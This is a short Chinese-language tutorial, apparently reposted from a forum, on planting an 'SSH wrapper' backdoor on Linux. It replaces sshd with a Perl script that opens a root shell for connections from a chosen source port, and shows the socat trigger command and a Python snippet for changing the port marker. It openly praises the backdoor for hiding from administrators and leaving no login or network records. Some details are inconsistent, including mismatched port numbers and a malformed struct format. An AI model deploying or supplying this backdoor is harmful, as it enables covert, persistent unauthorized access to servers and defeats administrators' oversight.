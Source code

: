 # SSH wrapper

> 原文：[https://www.zhihuifly.com/t/topic/3485](https://www.zhihuifly.com/t/topic/3485)

# SSH wrapper

判断连接来源端口，将恶意端口来源访问传输内容重定向到/bin/sh中。

```
cd /usr/sbin/
mv sshd ../bin
vim sshd //编辑sshd内容为以下
#!/usr/bin/perl
exec"/bin/sh"if(getpeername(STDIN)=~/^..LF/); // \x00\x00LF是19526的大端形式
exec{"/usr/bin/sshd"}"/usr/sbin/sshd",@ARGV;
service sshd restart 
```

在本机执行

```
socat STDIO TCP4:127.0.0.1:22,sourceport=19265 
```

![image](img/b1b05f542d6eedabdc0cc93ac8dd0651.png)

可以看到我利用socat限制了本地端口19526访问server的22端口反回一个sh窗。

修改端口可以修改..LF

```
import struct
buffer = struct.pack('>I6',19526)
print repr(buffer) 
```

![image](img/8f7edb0e96d9b0d030b39f5b538a1ddf.png)

优点：

1、在无连接后门的情况下，管理员是看不到端口和进程的，last也查不到登陆。

2、在针对边界设备出网，内网linux服务器未出网的情况下，留这个后门可以随时管理内网linux服务器，还不会留下文件和恶意网络连接记录。